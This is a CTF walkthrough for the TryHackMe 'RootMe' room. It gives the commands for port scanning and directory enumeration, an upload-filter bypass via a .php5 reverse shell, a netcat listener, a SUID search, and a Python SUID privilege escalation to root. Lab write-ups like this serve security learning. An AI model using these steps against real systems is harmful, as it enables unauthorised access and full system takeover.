







#### A easy level CTF. Link of the CTF is <br>https://tryhackme.com/room/rrootme
# Steps followed
1.

## Task 1:- Deploy the machine
2. Deployed the machine.<br>
## Task 2:-
3. Use <b><ins>nmap/zenmap</ins></b> for finding open ports.<br>
```
nmap -sV -T4 -O -F --version-light <ip-address>
```
4.

<br>
6.

### First Question:- Scan the machine, how many ports are open?
6. So as we can see from the screenshot that 2 ports 22 and 80 are open.
### Second Question:- What version of Apache is running?
7. Here, we can see the version of Apache that is runnung on port 80.
### Third Question:- What service is running on port 22?
8. we can see that on port 22 ssh is running.
### Forth Question:- Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt
```
9.

<br>
10.

### Fifth Question:- What is the hidden directory?
11. We can see from the screenshot that there are useful directries like js,css but our answer is of 5 letter directory name :- <ins><b> /panel/ </b></ins>
12.

## Task 3:-
### user.txt?
13.
We first tried to upload Shell.php into the site but was not able to then we tried to try different php extensions like .php2,.php3,.php4 etc.
<br>
Luckily .php5 worked and we were able to upload reverse shell into the site.<br>
But still we are not able to get a shell. For it we need to run that file which can be done by going to another directory /uploads/.<br>
We will run 
```
nc -lvnp 1234
```
on the terminal and run our file on the site.
<br>
Hence, We received the shell in the terminal.
Then, we will use the following command to find where <b><ins> user.txt </b></ins>
really is
```
find / -name "user.txt" 2>/dev/null
```
We will get the directory where it is and do cat
```
cat /var/bin/user.txt
```
and Hence we find our flag.
```
THM{***_***_*_*****}
```
## Task 4
### First Question :- Search for files with SUID permission, which file is weird?
To find this we will use the following terminal cmd
```
find / -user root -perm /4000 2>/dev/null
```
now we will see all directories which file seems to be wierd.
<br>
And we found that file
```
/usr/bin/python
```
### Second Question :- Find a form to escalate your privileges.
We search for getfobins :- https://gtfobins.github.io/#+suid
<br>
we search for the python privilege escatalation and we found the following:-
```
sudo install -m =xs $(which python)
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and by applying it we get to the root user.
### Third Question :- root.txt
We implement the cmd
```
cat /root/root.txt
```
and we found our root flag
```
THM{*********_**********}
```
